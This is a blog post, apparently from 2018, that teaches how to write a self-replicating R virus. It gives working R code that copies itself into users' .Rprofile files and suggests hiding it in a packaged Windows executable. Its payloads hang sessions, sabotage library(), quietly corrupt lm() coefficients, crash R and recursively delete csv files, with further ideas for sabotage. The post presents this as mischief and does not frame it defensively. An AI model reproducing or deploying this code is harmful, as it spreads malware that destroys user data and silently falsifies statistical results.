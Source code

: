 ```yaml
---
title: 'How to Write an R Virus '
author: Siqi Zhang
date: '2018-09-27'
slug: how-to-write-an-r-virus
categories:
  - R
tags:
  - Programming
---
```


A [computer virus](https://en.wikipedia.org/wiki/Computer_virus) is a piece of program that can:

 - copy itself
 - do bad things     

This is not very hard to accomplish with R, as I will demonstrate in this article.  

  
## Replicate ##
    
The [_virus_](https://gist.github.com/iqis/e4030f6af45d0d3ebae21f2816c1fc58) exploits R's initilization script, `.Rprofile`. When R starts up, it is going to look for this file in the current working directory and the user's home directory, then runs everything in it:
```r
{
    function() {
        rp_paths <- c("~/.Rprofile", paste0(getwd(), "/.Rprofile"))
        inject <- function(rp, code) {
            write(code, file = rp, append = FALSE)
        }
        lapply(rp_paths, inject, code = deparse(match.call()))

        cat("Wow, your R is Rancid!!!\n")
    }
}()

```

When the above script is run, it will make a copy of itself through `deparse(match.call())`, and overwrite the `.Rprofile` files. The next time you open a new R session, everything you see in the above will be run again. Right now, our virus does nothing but printing something at the end of your start up message.

```
...

Type 'demo()' for some demos, 'help()' for on-line help, or
'help.start()' for an HTML browser interface to help.
Type 'q()' to quit R.

Wow, your R is Rancid!!!
```
Any project that started by the user is going to have its project folder infected. Likewise, if someone copy-and-pasted the R project folder to another computer, and start R from there, his home folder is going to be infected.

As R is an interpreted language, this seems to be the only way to infection. To conceal our malicous code, there is a way of packing a Shiny app into a Windows executable through using a tool called [RInno](https://ficonsulting.github.io/RInno/), which has [Electron](https://electronjs.org/) behind itself.
  
## Damage ##
    
It looks like that the replication part of the virus is taken care of. What, then, are some malicious scripts that we can have fun with? 

There could be countless ways.

One of the easiest thing to do is to hang the user's R session. It could be done as simply as putting it to _sleep_ for a really long time:
```r
Sys.sleep(1e9)
```
... like 30 years, give or take.

Or, let R come up with a really large number; this is also going take up available memory to the user.
```r
rnorm(1e9)
```
For me, 1e9 is quite enough. But scientific notaion is your friend. Go big.

However, if R is rendered completely unusable, the virus isn't goint to travel very far. That's not what we want. It is also a great idea to replace some good functions with naughty ones. Symbol bindings are locked in attached namespaces, but it is easy to undo that:
```r
reassign <- function(sym, value, envir) {
        envir <- as.environment(envir)
        unlockBinding(sym, envir)
        assign(sym, value, envir = envir)
}
```

We can do the user a service by forbidding the `library()` function, and prompt a better option.
```r
reassign("library", 
         function(...) warning("No man, seriously. Use require()"),
         "package:base"
)
```

The effect would be:
```r
library(purrr)
```

Now let's try something more subtle and more bad(_badder_?). We first extend the `reassign()` function a little bit...
```r
tamper <- function(sym, value, envir){
        assign(paste0(".",sym), 
               get(sym, envir = as.environment(envir)), 
               envir = as.environment("package:base")
               )
        reassign(sym, value, envir)
}
```

... and use it to slip in some bad code.
```r
tamper("lm",
       function(...){
               model <- .lm(...)
               model$coefficients <- 
                       model$coefficients * (1 + rnorm(1))
               model
               },
       "package:stats")
```

Now when we build a model; the coefficients looks normal, but are completely off. You can compare the this with the result on your own computer.
```r
lm(mpg ~ ., data = mtcars)$coefficients
```

In the above, we saved a copy of the original function in the base package. If we didn't do that, we would have create an infinite recursion through self-refernce, such as:
```r
reassign("paste",
         function(...) paste(...),
         "package:base")

```

```r
paste("foo", "bar")
```
Running this will crash the R session. If the user didn't save documents before setting off this bomb,it's obviously too bad.

## Further Damage ##
    
There are yet more ways to our streak of mischief. For starters, how about deleting every `csv` file the user has in the working directory? 
```r
file.remove(list.files(getwd(), 
                       ".csv",
                       recursive = TRUE)
```
    
Doing something on the file system is a big step foward form just messing with their R session.

From annoying to destructive, the level of naughtiness only limited by on your imagination. With some deliberation, you can ruin someone's life in a very meaningful way. 

Here are some futher ideas:

  -  Bloat the user's disk space with meaningless data
  -  Give wrong results only _sometimes_ when a function is called
  -  Use [Rstudio API](https://rstudio.github.io/rstudio-extensions/pkgdown/rstudioapi/index.html) to mess with the user's scripts in the editor, or some other wild sh*t.

    
    
**Note**  
You also have the choice of putting any of the malicious programs in `.First()` and `.Last()` functions, which will run at the beginning and the end of a session. See the [R Manual](https://stat.ethz.ch/R-manual/R-devel/library/base/html/Startup.html) for details. 

More on `.Rprofile`: [Fun with .Rprofile and customizing R startup](http://www.onthelambda.com/2014/09/17/fun-with-rprofile-and-customizing-r-startup/)
